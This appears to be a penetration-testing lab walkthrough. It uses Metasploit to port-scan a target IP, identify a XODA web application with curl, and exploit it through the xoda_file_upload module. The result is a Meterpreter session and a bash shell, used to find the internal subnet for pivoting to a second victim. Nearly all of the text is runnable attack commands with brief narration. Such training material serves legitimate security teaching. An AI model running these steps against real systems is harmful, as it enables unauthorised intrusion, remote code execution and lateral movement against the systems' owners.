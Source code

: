 ```
ifconfig
service postgresql start
msfconsole
```

Check the status of the database.

```
db_status
```

```
workspace -a Port_Scan
workspace
search portscan
use auxiliary/scanner/portscan/tcp
show options
set RHOSTS 192.86.140.3
run  
```

The Metasploit Framework console allows us to initialize or to run Linux utilities directly.

What we're essentially doing with curl is downloading the web page, the home page, rather of the web application. So it's going to download the HTML code.

```
curl 192.86.140.3
```

The web server is running an application called XODA.

```
<title>XODA</title>
```

```
search xoda
use exploit/unix/webapp/xoda_file_upload
show options
set RHOSTS 192.86.140.3
set TARGETURI /
show options
exploit
```

```
meterpreter > sysinfo
```

What we need to find out now is we need to find out the private network IP address, or rather the subnet that this particular PC or this particular system is a part of in order to identify the IP address of victim 2.

```
meterpreter > shell
/bin/bash -i
ifconfig
```
